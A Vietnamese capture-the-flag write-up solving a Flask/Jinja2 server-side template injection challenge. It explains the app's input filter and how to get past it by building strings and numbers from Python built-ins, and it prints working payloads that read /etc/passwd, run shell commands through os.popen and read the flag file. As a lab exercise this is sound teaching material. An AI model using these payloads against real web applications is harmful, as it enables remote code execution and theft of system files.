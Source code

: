 
# Write-up EHC Hair Salon
*Kiến thức nền:
PyJail Escape,
OOP in Python,
Server-sided template injection with Jinja2.*

* [Source code](https://github.com/5c4ll10n/FPTU-Hacking-CTF-2022/blob/main/Data/app.py)

Challenge này cho ta một trang web với giao diện như hình, có 1 box để input text và 1 nút submit

![image](https://user-images.githubusercontent.com/82231862/176257788-ee5d0482-a574-4cf0-9a51-598ba054eaa9.png)

Xem source code, ta thấy tác giả đã import module flask và sử dụng jinja2 để render ra page


![image](https://user-images.githubusercontent.com/82231862/176261133-3e96b201-903e-48e1-b799-4d563236713e.png)

![image](https://user-images.githubusercontent.com/82231862/176261062-61d6cf64-73d6-4908-a28a-f580cb08dc25.png)

Với web không filter user input, ta có thể dễ dàng inject code vào. Ví dụ:

* `{{2*3}}` sẽ được render ra là 6

Chúng ta còn có thể inject các đoạn code như [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) hoặc [remote code execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution). Ví dụ:

* `{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}` trả về nội dung file password
* `{{ cycler.__init__.__globals__.os.popen('id').read() }}` chạy lệnh `id` trong shell

Nhưng trong challenge này, input đã tác giả đã filter đi khá nhiều

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#" 
# filter đi string, số, flag, các char và 1 số lệnh cơ bản. Quan trong nhất là string và số để ta có thể tạo payload
...
       hair_type = request.form['hair'].lower()
       if '{' in hair_type and re.search(regex,hair_type):
            return render_template_string(error_page)
            
       if len(hair_type) > 256:
            return render_template_string(error_page)      
# giới hạn số kí tự tối đa có thể nhập vào
...
```

Không thể tạo payload trực tiếp, ta sẽ đi đường vòng bằng cách sử dụng các attribute và method có sẵn của python. Ví dụ:

* `().__doc__` sẽ trả về doc của tuple: `Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object.`
* `().__doc__[7]` sẽ trả về kí tự thứ 5 của string trên: `n`
* `().__str__.__name__` sẽ trả về `__str__`

Vì tác giả đã filter số nên ta sử dụng hàm `[...].__len__()` để trả về số phần tử của 1 mảng. Ví dụ:

* `[].__len__()` sẽ trả về số phần tử của mảng rỗng là: `0`
* `[[],[],[],[]].__len__()` sẽ trả về: `4`

Kết hợp 2 cái ta sẽ có được:

* `().__doc__[[[],[],[]].__len__()]` để trả về kí tự `l`
* `().__str__.__name__[[[],[]].__len__()]` để trả về kí tự `s`

Chúng ta thử inject payload bằng cách gọi [os.popen().read()](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread) để chạy lệnh `ls` trong shell

* `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}`  dùng dấu `+` để ghép chuỗi

Ta tìm được file tên là **flag** trong thư mục

![image](https://user-images.githubusercontent.com/82231862/176274512-1734c739-247a-47f2-bb79-28e18e829180.png)

Tiếp theo để mở file đó, ta sẽ dùng [read file](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) để đọc file **flag**. Ta được payload như sau:

* `{{get_flashed_messages.__globals__.__builtins__.open(().__format__.__name__[[[],[]].__len__()]+().__le__.__name__[[[],[]].__len__()]+().__add__.__name__[[[],[]].__len__()]+().__ge__.__name__[[[],[]].__len__()]).read()}}`

Kết quả: 

![image](https://user-images.githubusercontent.com/82231862/176280207-17d6dfb8-d240-4d4f-9b21-48899a300f4b.png)

### FLAG: FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}

